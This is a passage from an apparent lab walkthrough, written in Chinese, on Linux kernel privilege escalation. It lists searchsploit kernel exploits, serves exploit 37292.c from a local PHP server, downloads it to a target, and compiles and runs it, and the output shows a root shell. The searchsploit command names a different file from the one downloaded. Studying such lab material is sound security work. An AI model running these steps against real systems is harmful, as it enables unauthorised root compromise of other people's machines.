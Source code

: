     Linux Kernel 3.4 < 3.13.2 - recvmmsg x32 compat (PoC)              | linux/dos/31305.c
    Linux Kernel 4.10.5 / < 4.14.3 (Ubuntu) - DCCP Socket Use-After-Fr | linux/dos/43234.c
    Linux Kernel 4.8.0 UDEV < 232 - Local Privilege Escalation         | linux/local/41886.c
    Linux Kernel < 3.16.1 - 'Remount FUSE' Local Privilege Escalation  | linux/local/34923.c
    Linux Kernel < 3.16.39 (Debian 8 x64) - 'inotfiy' Local Privilege  | linux_x86-64/local/44302.c
    Linux Kernel < 4.10.13 - 'keyctl_set_reqkey_keyring' Local Denial  | linux/dos/42136.c
    Linux kernel < 4.10.15 - Race Condition Privilege Escalation       | linux/local/43345.c
    Linux Kernel < 4.11.8 - 'mq_notify: double sock_put()' Local Privi | linux/local/45553.c
    Linux Kernel < 4.13.1 - BlueTooth Buffer Overflow (PoC)            | linux/dos/42762.txt
    Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege | linux/local/45010.c
    Linux Kernel < 4.14.rc3 - Local Denial of Service                  | linux/dos/42932.c
    Linux Kernel < 4.15.4 - 'show_floppy' KASLR Address Leak           | linux/local/44325.c
    Linux Kernel < 4.16.11 - 'ext4_read_inline_data()' Memory Corrupti | linux/dos/44832.txt
    Linux Kernel < 4.17-rc1 - 'AF_LLC' Double Free                     | linux/dos/44579.c
    Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escala | linux/local/44298.c
    Linux Kernel < 4.4.0-21 (Ubuntu 16.04 x64) - 'netfilter target_off | linux_x86-64/local/44300.c
    Linux Kernel < 4.4.0-83 / < 4.8.0-58 (Ubuntu 14.04/16.04) - Local  | linux/local/43418.c
    Linux Kernel < 4.4.0/ < 4.8.0 (Ubuntu 14.04/16.04 / Linux Mint 17/ | linux/local/47169.c
    Linux Kernel < 4.5.1 - Off-By-One (PoC)                            | linux/dos/44301.c
    ------------------------------------------------------------------- ---------------------------------
    ```

-   经过测试，推荐使用的漏洞脚本是`37292.c`

-   下载利用文件： `searchsploit linux kernel -m linux/local/34923.c `

-   本地开启php简易服务器：-->`php -S 0:80`

-   下载文件到靶机中

-   ```shell
    2023-06-08 08:00:47--  http://192.168.2.128/37292.c
    sh: 4: 2023-06-08: not found
    # Connecting to 192.168.2.128:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 4968 (4.9K) [text/x-c]
    Saving to: `37292.c'
    
    100%[======================================>] 4,968       --.-K/s   in 0s      
    
    ```

-   成功获取root权限

-   ```shell
    
    www-data@indishell:/tmp$ gcc 37292.c -o 37292 
    gcc 37292.c -o 37292
    www-data@indishell:/tmp$ ./37292
    ./37292
    spawning threads
    mount #1
    mount #2
    child threads done
    /etc/ld.so.preload created
    crsh: 5: Syntax error: Unterminated quoted string
    # > > > > > > > > > > > eating shared library
    # whoami
    whoami
    root
    # ip a